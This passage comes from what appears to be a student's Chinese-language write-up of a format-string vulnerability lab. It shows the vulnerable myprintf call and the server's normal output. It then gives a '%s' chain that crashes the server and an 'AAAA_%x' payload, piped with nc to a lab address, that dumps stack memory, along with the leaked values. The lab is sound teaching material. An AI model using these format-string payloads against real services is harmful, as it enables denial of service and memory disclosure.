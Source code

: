 ```c

    myprintf(str);
}
```

# Task 1: Crashing the Program

向服务器提供一个输入，这样当服务器程序试图打印 myprintf ()函数中的用户输入时，它就会崩溃

这是正常的输出：

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd300
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 6 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd228
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hello
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

为了使程序崩溃，只需要输入`%s%s%s%s%s%s%s%s%s`即可，总会有指针访问到不可访问的内存

crash成功的标志是不显示 `(_)(_)  Returned properly (_)(_)`

# Task 2: Printing Out the Server Program’s Memory

## Task 2.A: Stack Data

打印出堆栈上的数据。需要多少% x 格式说明符才能让服务器程序打印输入的前四个字节

> Difference between %p and %x in C/C++
>
> The %p is used to print the pointer value, and %x is **used to print hexadecimal values**. Though pointers can also be displayed using %u, or %x.

输入

```
$ echo AAAA_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x_%x | nc 10.9.0.5 9090
```

回显

 ```
server-10.9.0.5 | AAAA_11223344_1000_8049db5_80e5320_80e61c0_ffffd300_ffffd228_80e62d4_80e5000_ffffd2c8_8049f7e_ffffd300_0_64_8049f47_80e5320_4ff_ffffd3dd_ffffd300_80e5320_80e9720_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_0_e2fa4d00_80e5000_80e5000_ffffd8e8_8049eff_ffffd300_dd_5dc_80e5320_0_0_0_ffffd9b4_0_0_0_dd_41414141_5f78255f_255f7825_78255f78_5f78255f_255f7825_78255f78_5f78255f_255f7825
 ```
